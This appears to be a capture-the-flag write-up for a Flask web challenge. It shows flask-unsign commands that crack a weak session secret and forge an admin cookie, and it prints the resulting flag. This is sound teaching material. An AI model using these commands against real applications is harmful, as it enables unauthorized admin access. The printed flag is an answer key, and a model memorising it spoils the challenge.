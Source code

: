 ## Solution

Take a look at the cookies, we see one labelled "session".
At first it looks like JWT but when we attempt to decode we get an error.
Use `flask-unsign --unsign --cookie "<cookie here>"` to get the secret key `supersecretkey`.
We can then sign our own cookies as such:
`flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'`
Changing our cookie and heading to `/admin` we get the flag.\

flag: OSCTF{Av0id_S1mpl3_P4ssw0rDs}